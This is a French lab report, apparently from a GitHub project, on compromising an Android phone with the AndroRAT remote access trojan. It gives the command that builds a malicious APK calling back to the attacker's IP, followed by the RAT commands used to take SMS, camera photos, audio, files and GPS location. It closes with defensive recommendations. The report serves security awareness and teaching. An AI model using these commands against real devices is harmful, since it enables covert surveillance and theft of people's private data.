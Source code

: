 # Rapport d'Attaque avec AndroRAT

## 📌 Informations Générales
- **Date de l'attaque** : 23/01/2025
- **Système cible** : Android
- **Modèle du téléphone** : Pixel 9 Pro XL
- **Version Android** : Pie android 9.0
- **Adresse IP de l'attaquant** : 10.3.219.27
- **Adresse IP de la victime** : 192.168.232.2

---

## 🎯 Objectif de l'attaque
L'objectif de cette attaque était de tester la compromission d'un appareil Android à l'aide de **AndroRAT**, un Remote Access Trojan (RAT) permettant d'obtenir un contrôle total sur l'appareil cible.

---

## 🛠️ Méthodologie
### 1️⃣ Génération de l'APK Malveillant
Commande utilisée :
```
python3 androRAT.py --build -i 10.3.219.27 -p 4444 test1.apk
```

### 2️⃣ Installation et Exécution de l'APK
- L'APK a été transférée et installée sur le téléphone cible via un serveur HTTP.
- Une fois lancée, l'application a établi une connexion avec la machine attaquante.

### 3️⃣ Prise de Contrôle et Extraction des Données
Une fois connecté, les commandes suivantes ont été exécutées :

#### 📩 Accès aux Messages SMS
```
getSMS sent
getSMS inbox
```
- Extraction et affichage de tous les SMS stockés sur l’appareil.

![sms](sms_resultat.png)

#### 📷 Accès à la Caméra
```
camList

takepic 0
takepic 1
```
- Capture d'images via la caméra avant/arrière.

![sms](image_result.png)

#### 🎙️ Enregistrement Audio
```
startAudio
stopAudio
```
- Activation du microphone et enregistrement audio.

![sms](audio_result.png)

#### 📂 Accès aux Fichiers Stockés
```bash
file list /sdcard
```
- Exploration des fichiers enregistrés sur l’appareil.

#### 📍 Géolocalisation de l’Appareil
```
getLocation
```
- Récupération des coordonnées GPS en temps réel.

![sms](location.png)
---

## 📝 Résultats de l'Attaque
| Fonctionnalité | Résultat |
|--------------|---------|
| Accès aux SMS | ✅ Succès |
| Accès à la caméra | ✅ Succès (Images capturées) |
| Enregistrement audio | ✅ Succès (Fichier audio enregistré) |
| Accès aux fichiers | ✅ Succès (Exploration et extraction) |
| Géolocalisation | ✅ Succès (Coordonnées GPS obtenues) |

---

## 🔍 Analyse des Vulnérabilités Exploitées
1. **Installation d'une application non vérifiée** : L'utilisateur a installé un APK sans contrôle de source.
2. **Manque de protection des permissions** : L’application malveillante a pu accéder librement aux fonctionnalités sensibles.
3. **Absence d’un antivirus** : Aucun mécanisme de détection n’a empêché l’exécution de l’APK.

---
## 🔐 Recommandations de Sécurité
- **Ne pas installer d’APK provenant de sources inconnues.**
- **Restreindre les permissions des applications non fiables.**
- **Utiliser un antivirus pour analyser les applications avant installation.**
- **Garder Android et les applications à jour pour corriger les vulnérabilités.**
- **Activer Google Play Protect pour détecter les comportements suspects.**

---

## 📌 Conclusion
L'utilisation de **AndroRAT** a permis de démontrer la facilité avec laquelle un appareil Android peut être compromis si l'utilisateur ne suit pas les bonnes pratiques de sécurité. Ce test souligne l'importance d'une sensibilisation accrue aux cybermenaces sur mobile.



